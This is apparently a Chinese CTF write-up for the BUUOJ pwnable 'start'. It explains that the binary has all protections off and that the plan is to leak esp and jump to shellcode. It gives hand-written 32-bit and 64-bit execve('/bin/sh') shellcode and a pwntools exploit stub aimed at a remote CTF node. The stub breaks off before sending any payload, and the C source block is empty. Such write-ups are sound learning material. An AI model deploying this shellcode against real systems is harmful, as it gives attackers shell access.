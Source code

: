 ```c

```

发现是20，这题checksec后发现保护全关，我们直接泄露esp的地址然后控制esp指向丢入个shellcode就行了



# 32位手撸shellcode

```python
context.arch='i386'
code='''
push 0x68
push 0x732f2f2f
push 0x6e69622f 
mov ebx, esp
xor ecx, ecx
xor edx, edx
mov al, 0xb  
int 0x80
'''
sc = asm(code)
```

# 64位手撸shellcode

```python
context.arch = 'amd64'
code = '''
mov rax, 0x68732f6e69622f;
push rax
mov rdi, rsp;
mov rsi, 0;
xor rdx, rdx;
mov rax, 59;
syscall
'''
sc = asm(code)
```



exp

```python
from pwn import *
loacl_elf = ELF("./start")
context.arch = loacl_elf.arch
p = process("./start")
p = remote("node4.buuoj.cn",27011)
#gdb.attach(p, 'b* 0x08048060')
 
#shellcode=asm(shellcraft.sh())
context.arch='i386'
code='''
push 0x68
push 0x732f2f2f
push 0x6e69622f 
mov ebx, esp
xor ecx, ecx
xor edx, edx
mov al, 0xb  
int 0x80
'''
sc = asm(code)

```